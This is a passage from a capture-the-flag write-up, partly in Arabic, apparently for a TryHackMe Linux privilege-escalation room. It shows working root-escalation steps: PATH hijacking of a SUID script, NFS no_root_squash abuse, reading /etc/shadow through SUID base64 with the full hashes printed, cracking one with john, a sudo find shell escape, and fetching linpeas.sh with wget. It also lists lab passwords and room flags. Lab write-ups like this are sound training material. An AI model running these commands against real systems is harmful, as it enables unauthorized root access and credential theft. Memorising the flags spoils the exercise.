* يجب أن يكون السكربت عليه SUID أو يعمل بصلاحيات `root`.
* يمكن استخدام أوامر أخرى غير `bash` مثل `python`, `perl` إذا احتجت ذلك.

---

## 📜 الخلاصة

| العنصر    | التفسير                                                   |
| --------- | --------------------------------------------------------- |
| `$PATH`   | متغير يحدد أماكن البحث عن الأوامر                         |
| الثغرة    | سكربت root يشغل أمر بدون تحديد مساره الكامل               |
| الاستغلال | نضع أمر بنفس الاسم في مجلد قابل للكتابة ونضيفه في `$PATH` |
| النتيجة   | تنفيذ الأمر بصلاحيات `root` وتصبح لديك صلاحية كاملة 🔥    |

---

## ✅ مثال تلخيصي

```bash
export PATH=/tmp:$PATH
cp /bin/bash /tmp/thm
chmod +x /tmp/thm
./path  # سكربت بيستدعي thm بدون مسار كامل
```

> النتيجة: تحصل على Shell بصلاحيات root 👑

---

---
---



on ``murdoch`` user

```
echo $PATH
```

``output``

```
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

```
ls -l
```

![image](https://github.com/user-attachments/assets/c554eb60-790e-4b6e-83a1-531e67dba6b3)

---

![image](https://github.com/user-attachments/assets/da48da9e-8711-4709-b77b-80dc82f3fbe6)

## 🎯 يعني إيه؟

* السكربت بيحاول يشغّل أمر اسمه ``thm``

* لكن مش كاتب المسار الكامل (زي ``/usr/bin/thm``)

* وده معناه إنه بيعتمد على ``$PATH``

* واللي بيتنفّذ أصلاً من برنامج عليه ``SUID`` (يعني أي أمر جوّاه بيتنفذ بصلاحيات ``root``) 💥




## الخطوة 1: أنشئ سكربت باسم ``thm`` في مجلد قابل للكتابة (زي ``/tmp``)


```
echo '/bin/bash' > /tmp/thm
chmod +x /tmp/thm
```

## ✳️ الخطوة 2: عدل ``$PATH`` علشان يحط ``/tmp`` في البداية

```
export PATH=/tmp:$PATH
```

```
./test
id
```

![image](https://github.com/user-attachments/assets/4a21ee9c-13ad-455e-985c-49aaf767896e)

```
THM-736628929
```

  
</details>








<details>
  <summary>Privilege Escalation: NFS</summary>


```
cat /etc/exports
```

``no_root_squash`` so it's vuln 

![image](https://github.com/user-attachments/assets/f29826d6-da3a-4ad8-83a9-bca6e972939d)

on my device

```
mkdir /tmp/nfs
mount -o rw,vers=3 10.10.189.231:/tmp /tmp/nfs
```

on machine 

```
cp /bin/bash /tmp
```

on my device

```
cp bash /tmp/nfs/rootshell 
```

![image](https://github.com/user-attachments/assets/e0457d3b-53a2-4205-b8a7-574656e5054c)

on machine 

```
/tmp/rootshell -p
```


![image](https://github.com/user-attachments/assets/8d48e5ca-371e-44de-8101-d0c1796f2333)

```
THM-89384012
```

  
</details>












<details>
  <summary>Capstone Challenge</summary>


```
Username: leonard
Password: Penny123
```

---
---

first try to see ``path``

![image](https://github.com/user-attachments/assets/9d15e68e-307b-4da2-b81a-00c4ab68f937)

so it first search on ``/home/leonard/scripts`` ok we will retrun to it 

----

```
getcap -r / 2>/dev/null
```

![image](https://github.com/user-attachments/assets/129ffad7-e101-4fa8-a6a1-6fadf46a4538)


----

```
find / -type f -perm -04000 -ls 2>/dev/null
```

```ruby
16779966   40 -rwsr-xr-x   1 root     root        37360 Aug 20  2019 /usr/bin/base64
17298702   60 -rwsr-xr-x   1 root     root        61320 Sep 30  2020 /usr/bin/ksu
17261777   32 -rwsr-xr-x   1 root     root        32096 Oct 30  2018 /usr/bin/fusermount
17512336   28 -rwsr-xr-x   1 root     root        27856 Apr  1  2020 /usr/bin/passwd
17698538   80 -rwsr-xr-x   1 root     root        78408 Aug  9  2019 /usr/bin/gpasswd
17698537   76 -rwsr-xr-x   1 root     root        73888 Aug  9  2019 /usr/bin/chage
17698541   44 -rwsr-xr-x   1 root     root        41936 Aug  9  2019 /usr/bin/newgrp
17702679  208 ---s--x---   1 root     stapusr    212080 Oct 13  2020 /usr/bin/staprun
17743302   24 -rws--x--x   1 root     root        23968 Sep 30  2020 /usr/bin/chfn
17743352   32 -rwsr-xr-x   1 root     root        32128 Sep 30  2020 /usr/bin/su
17743305   24 -rws--x--x   1 root     root        23880 Sep 30  2020 /usr/bin/chsh
17831141 2392 -rwsr-xr-x   1 root     root      2447304 Apr  1  2020 /usr/bin/Xorg
17743338   44 -rwsr-xr-x   1 root     root        44264 Sep 30  2020 /usr/bin/mount
17743356   32 -rwsr-xr-x   1 root     root        31984 Sep 30  2020 /usr/bin/umount
17812176   60 -rwsr-xr-x   1 root     root        57656 Aug  9  2019 /usr/bin/crontab
17787689   24 -rwsr-xr-x   1 root     root        23576 Apr  1  2020 /usr/bin/pkexec
18382172   52 -rwsr-xr-x   1 root     root        53048 Oct 30  2018 /usr/bin/at
20386935  144 ---s--x--x   1 root     root       147336 Sep 30  2020 /usr/bin/sudo
34469385   12 -rwsr-xr-x   1 root     root        11232 Apr  1  2020 /usr/sbin/pam_timestamp_check
34469387   36 -rwsr-xr-x   1 root     root        36272 Apr  1  2020 /usr/sbin/unix_chkpwd
36070283   12 -rwsr-xr-x   1 root     root        11296 Oct 13  2020 /usr/sbin/usernetctl
35710927   40 -rws--x--x   1 root     root        40328 Aug  9  2019 /usr/sbin/userhelper
38394204  116 -rwsr-xr-x   1 root     root       117432 Sep 30  2020 /usr/sbin/mount.nfs
958368   16 -rwsr-xr-x   1 root     root        15432 Apr  1  2020 /usr/lib/polkit-1/polkit-agent-helper-1
37709347   12 -rwsr-xr-x   1 root     root        11128 Oct 13  2020 /usr/libexec/kde4/kpac_dhcp_helper
51455908   60 -rwsr-x---   1 root     dbus        57936 Sep 30  2020 /usr/libexec/dbus-1/dbus-daemon-launch-helper
17836404   16 -rwsr-xr-x   1 root     root        15448 Apr  1  2020 /usr/libexec/spice-gtk-x86_64/spice-client-glib-usb-acl-helper
18393221   16 -rwsr-xr-x   1 root     root        15360 Oct  1  2020 /usr/libexec/qemu-bridge-helper
37203442  156 -rwsr-x---   1 root     sssd       157872 Oct 15  2020 /usr/libexec/sssd/krb5_child
37203771   84 -rwsr-x---   1 root     sssd        82448 Oct 15  2020 /usr/libexec/sssd/ldap_child
37209171   52 -rwsr-x---   1 root     sssd        49592 Oct 15  2020 /usr/libexec/sssd/selinux_child
37209165   28 -rwsr-x---   1 root     sssd        27792 Oct 15  2020 /usr/libexec/sssd/proxy_child
18270608   16 -rwsr-sr-x   1 abrt     abrt        15344 Oct  1  2020 /usr/libexec/abrt-action-install-debuginfo-to-abrt-cache
18535928   56 -rwsr-xr-x   1 root     root        53776 Mar 18  2020 /usr/libexec/flatpak-bwrap

```


ohhh found ``base64`` again so will try to read ``/etc/shadow``

```
LFILE=/etc/shadow
/usr/bin/base64 "$LFILE" | base64 --decode
```

### booom 

```
root:$6$DWBzMoiprTTJ4gbW$g0szmtfn3HYFQweUPpSUCgHXZLzVii5o6PM0Q2oMmaDD9oGUSxe1yvKbnYsaSYHrUEQXTjIwOW/yrzV5HtIL51::0:99999:7:::
bin:*:18353:0:99999:7:::
daemon:*:18353:0:99999:7:::
adm:*:18353:0:99999:7:::
lp:*:18353:0:99999:7:::
sync:*:18353:0:99999:7:::
shutdown:*:18353:0:99999:7:::
halt:*:18353:0:99999:7:::
mail:*:18353:0:99999:7:::
operator:*:18353:0:99999:7:::
games:*:18353:0:99999:7:::
ftp:*:18353:0:99999:7:::
nobody:*:18353:0:99999:7:::
pegasus:!!:18785::::::
systemd-network:!!:18785::::::
dbus:!!:18785::::::
polkitd:!!:18785::::::
colord:!!:18785::::::
unbound:!!:18785::::::
libstoragemgmt:!!:18785::::::
saslauth:!!:18785::::::
rpc:!!:18785:0:99999:7:::
gluster:!!:18785::::::
abrt:!!:18785::::::
postfix:!!:18785::::::
setroubleshoot:!!:18785::::::
rtkit:!!:18785::::::
pulse:!!:18785::::::
radvd:!!:18785::::::
chrony:!!:18785::::::
saned:!!:18785::::::
apache:!!:18785::::::
qemu:!!:18785::::::
ntp:!!:18785::::::
tss:!!:18785::::::
sssd:!!:18785::::::
usbmuxd:!!:18785::::::
geoclue:!!:18785::::::
gdm:!!:18785::::::
rpcuser:!!:18785::::::
nfsnobody:!!:18785::::::
gnome-initial-setup:!!:18785::::::
pcp:!!:18785::::::
sshd:!!:18785::::::
avahi:!!:18785::::::
oprofile:!!:18785::::::
tcpdump:!!:18785::::::
leonard:$6$JELumeiiJFPMFj3X$OXKY.N8LDHHTtF5Q/pTCsWbZtO6SfAzEQ6UkeFJy.Kx5C9rXFuPr.8n3v7TbZEttkGKCVj50KavJNAm7ZjRi4/::0:99999:7:::
mailnull:!!:18785::::::
smmsp:!!:18785::::::
nscd:!!:18785::::::
missy:$6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/:18785:0:99999:7:::
```


now we have 2 new hashes for users ``missy`` & ``root``

```
root:$6$DWBzMoiprTTJ4gbW$g0szmtfn3HYFQweUPpSUCgHXZLzVii5o6PM0Q2oMmaDD9oGUSxe1yvKbnYsaSYHrUEQXTjIwOW/yrzV5HtIL51
missy:$6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/
```

```
john --session=mycrack missy_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```


missy password

```
Password1
```

![image](https://github.com/user-attachments/assets/5e81d7bd-32e5-409a-8064-bbb89c34bd84)

```
find / -type f -iname '*flag1.txt' 2>/dev/null
```

```
/home/missy/Documents/flag1.txt
```

but i can't crack ``root`` hash

now i'm using ``missy`` user

```
sudo -l
```

![image](https://github.com/user-attachments/assets/ecdb1786-b7aa-4fd1-8dcc-e74f91ea8ef7)

![image](https://github.com/user-attachments/assets/8ad7f29e-ed2c-4b54-851e-c50924aff702)


```
sudo find . -exec /bin/sh \; -quit
```


![image](https://github.com/user-attachments/assets/c57a5b2a-cf19-4b71-9d97-4147be5b1f9f)

```
THM-168824782390238
```


<details>
  <summary>Linpeas⭕</summary>



```
python3 -m http.server 8888
```

```
wget http://<tun0_IP>:8888/linpeas.sh
```

![image](https://github.com/user-attachments/assets/87388684-fe83-4d25-9533-63d565bf2846)

* ![image](https://github.com/user-attachments/assets/dd5a988c-2e00-45a9-ab13-724d737131aa)

* ![image](https://github.com/user-attachments/assets/6a024c09-af8e-4c99-9af7-f5253d9657a8)

* there is alot of ``CVE'S`` you should take look on it

* ![image](https://github.com/user-attachments/assets/8a3dc6e2-d905-4ac9-92cd-625925606858)

* ![image](https://github.com/user-attachments/assets/d4be487b-c6f1-4ff2-bf00-3e68b72526eb)

* ![image](https://github.com/user-attachments/assets/9789c558-6bc6-4ef5-9688-29dc6a149810)

  ![image](https://github.com/user-attachments/assets/ea244bef-6d61-4448-b401-4c288ed3ccbd)

  ![image](https://github.com/user-attachments/assets/fbd04ea8-8113-4aeb-83c3-98ec16c54dee)

  ![image](https://github.com/user-attachments/assets/38859a63-b86a-4382-84a3-4f61462fbfed)


* ![image](https://github.com/user-attachments/assets/69c29eec-c567-4bba-bcea-abe362daebdf)

* ![image](https://github.com/user-attachments/assets/d7cbb3c0-044a-47ce-8991-fc314be89fc5)

* ![image](https://github.com/user-attachments/assets/ce0f7a0c-ae86-4b68-b2a5-900162278670)

* ![image](https://github.com/user-attachments/assets/1a586fe5-0a89-40af-9d17-7ec09de2ee86)

* ![image](https://github.com/user-attachments/assets/6ba0a091-ceb2-44c0-9fd9-41f088799b61)

* ![image](https://github.com/user-attachments/assets/09a00a7e-9dfe-445d-9f16-1e482bb7937a)

* ![image](https://github.com/user-attachments/assets/f5d36712-1cd1-4b03-ba7f-cf591aaaf256)

* ![image](https://github.com/user-attachments/assets/6ad2bbfb-a99d-4b60-a060-701b64f8f7ef)

* ![image](https://github.com/user-attachments/assets/b48eee31-10d4-461c-92c3-04d97ee770d2)

* 
  
</details>


  
</details>
















